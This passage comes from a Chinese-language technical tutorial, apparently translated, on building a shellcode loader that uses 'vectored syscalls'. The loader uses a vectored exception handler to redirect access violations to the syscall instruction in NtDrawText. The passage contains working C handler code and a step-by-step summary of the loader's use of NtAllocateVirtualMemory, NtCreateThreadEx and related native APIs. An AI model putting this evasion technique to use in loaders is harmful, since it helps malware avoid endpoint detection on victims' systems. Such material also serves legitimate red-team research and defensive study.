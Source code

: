 ```bash
// Global variable to store the address of the syscall instruction
ULONG_PTR g_syscall_addr = 0x00;
```

最后，使用 `exception_ptr` 将内存地址（指向 NtDrawText 的 syscall stub 中的 syscall 指令）传递到 VEH 函数 `PvectoredExceptionHandler` 中的 rip 寄存器\`

```bash
// Vectored Exception Handler function
LONG CALLBACK PvectoredExceptionHandler(PEXCEPTION_POINTERS exception_ptr) {
    // Check if the exception is an access violation
    if (exception_ptr->ExceptionRecord->ExceptionCode == EXCEPTION_ACCESS_VIOLATION) {
        // Modify the thread's context to redirect execution to the syscall address
        // Copy RCX register to R10
        exception_ptr->ContextRecord->R10 = exception_ptr->ContextRecord->Rcx;

        // Copy RIP (Instruction Pointer) to RAX (RIP keeps SSN --> RAX keeps SSN)      
        exception_ptr->ContextRecord->Rax = exception_ptr->ContextRecord->Rip;

        // Set RIP to global address (set syscalls address retrieved from NtDrawText to RIP register)       
        exception_ptr->ContextRecord->Rip = g_syscall_addr;

        // Continue execution at the new instruction pointer
        return EXCEPTION_CONTINUE_EXECUTION;
    }
    // Continue searching for another exception handler
    return EXCEPTION_CONTINUE_SEARCH;
}
```

```bash
// Set RIP to the syscall address for execution
exception_ptr->ContextRecord->Rip = g_syscall_addr;
```

提醒一下：当尝试通过 SSN 初始化原生 API 时，例如 NtAllocateVirtualMemory，我们已经能够通过访问冲突异常专门触发向量异常处理程序，并实现将 SSN 0x18 转移到 rip 或 rax 寄存器。由于我们现在在本机 API NtDrawText 的上下文中拥有了 syscall 指令的有效内存地址，因此我们最终可以通过向量异常处理执行原生 API NtAllocateVirtualMemory 的系统调用。

如上所述，此过程将重复进行，直到在抛出 EXCEPTION\_ACCESS\_VIOLATION、处理并最终执行 shellcode 后，shellcode 加载器中使用的或通过 SSN 启动的所有本机 API 都分别传递给向量异常处理函数。

## 总结

因此，我们现在有了通过向量化处理（Vectored Syscalls）使用系统调用来执行 shellcode 加载器上下文中使用的原生 API 的基础。以下是代码中主要进程的粗略总结。

-   `PVECTORED_EXCEPTION_HANDLER`用于定义向量异常处理程序函数 `PvectoredExceptionHandler`。
-   在 `PvectoredExceptionHandler` 函数中，我们定义了异常代码，例如 `EXCEPTION_ACCESS_VIOLATION`，它将触发对向量异常处理程序的传递。
-   在 `PvectoredExceptionHandler` 函数中，我们定义了访问 `rcx、r10、rax、rip` 寄存器所需的指针。
-   我们特意触发了在 VEH 函数中定义为异常代码的`EXCEPTION_ACCESS_VIOLATION`。
-   `EXCEPTION_ACCESS_VIOLATION`是通过尝试启动本机 API 来触发的，例如通过 `SSN` 的 `NtAllocateVirtualMemory`。
-   `SSN` 被传递到 `rip` 寄存器，而 rip 寄存器又被传递到 VEH 函数中的 `rax` 寄存器。
-   Windows API `GetModuleHandleA` 用于访问 `ntdll.dll` 内存。
-   我们还使用 `GetProcAddress` 访问 `ntdll.dll` 中任何原生 API 的基址（例如 `NtDrawText`）。
-   `FindSyscallAddr` 函数使用 while 循环执行操作码比较，以在原生 API 的 sycall stub（例如 `NtDrawText`）中查找 `syscall` 指令的内存地址。
-   `syscall` 指令的内存地址存储在全局变量 `g_syscall_addr` 中，并传递给 VEH 函数中的 `rip` 寄存器。
-   然后，`syscall`由原生 API 的注册好的 VEH 函数执行，例如 `NtAllocateVirtualMemory`。
-   对执行 shellcode 所需的任何其他必需的原生 API 重复该过程，例如 `NtWriteVirtualMemory、NtProtectVirtualMemory、NtCreateThreadEx` 和 `NtWaitForSingleObject`。

